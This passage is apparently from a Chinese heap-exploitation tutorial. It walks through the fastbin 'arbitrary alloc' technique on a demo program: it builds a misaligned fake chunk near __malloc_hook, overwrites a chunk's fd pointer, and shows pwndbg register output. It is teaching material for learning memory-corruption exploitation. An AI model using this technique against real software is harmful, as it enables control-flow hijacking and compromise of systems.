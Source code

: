![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604401818994-10d619c6-67ae-4675-845e-9a1256735fdb.png)

---

> 错误示范：
>
> ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604401869952-b5c9937d-1a97-484e-bf33-fc6bc97fd4fd.png)
>

---

由于这个程序是64位的，因此 fastbin 的范围为32字节到128字节(0x20-0x80)，如下：

```c
//这里的size指用户区域，因此要小2倍SIZE_SZ
Fastbins[idx=0, size=0x10] 
Fastbins[idx=1, size=0x20] 
Fastbins[idx=2, size=0x30] 
Fastbins[idx=3, size=0x40] 
Fastbins[idx=4, size=0x50] 
Fastbins[idx=5, size=0x60] 
Fastbins[idx=6, size=0x70] 
```

通过观察发现 0x7ffff7dd1af5 处可以现实错位构造出一个0x000000000000007f：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604403717387-e9afb4d0-c792-48a9-b4fa-9404e541e04f.png)

因为 0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的。

```c
##define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```

> （注意sz的大小是unsigned int，因此只占4个字节）
>

而其大小又包含了 0x10 的 chunk_header，因此我们选择分配 0x60 的 fastbin，将其加入链表。 最后经过两次分配可以观察到 chunk 被分配到 0x7ffff7dd1afd，因此我们就可以直接控制 malloc_hook的内容(在我的libc中realloc_hook与__malloc_hook是在连在一起的)。

#### ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604404046017-376ee4df-a5bf-4bad-b323-55b498eaf391.png)
#### 执行 *(long long *)chunk1=0x7ffff7dd1af5-0x8;
对代码的第11行下断点，继续运行程序：

```c
pwndbg> b 11
Breakpoint 4 at 0x400599: file arbitrary_alloc.c, line 11.
pwndbg> c
Continuing.

Breakpoint 4, main () at arbitrary_alloc.c:11
11	    malloc(0x60);
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────[ REGISTERS ]────────────────────────────────────────
*RAX  0x602010 —▸ 0x7ffff7dd1aed (_IO_wide_data_0+301) ◂— 0xfff7dd0260000000
 RBX  0x0
 RCX  0x7ffff7dd1b00 (__memalign_hook) —▸ 0x7ffff7a92ea0 (memalign_hook_ini) ◂— push   r12
*RDX  0x7ffff7dd1aed (_IO_wide_data_0+301) ◂— 0xfff7dd0260000000
 RDI  0xffffffff
 RSI  0x7ffff7dd1b50 (main_arena+48) —▸ 0x602000 ◂— 0x0
 R8   0x602010 —▸ 0x7ffff7dd1aed (_IO_wide_data_0+301) ◂— 0xfff7dd0260000000
 R9   0x0
 R10  0x8b8
 R11  0x7ffff7a91540 (free) ◂— push   r13
 R12  0x400470 (_start) ◂— xor    ebp, ebp
```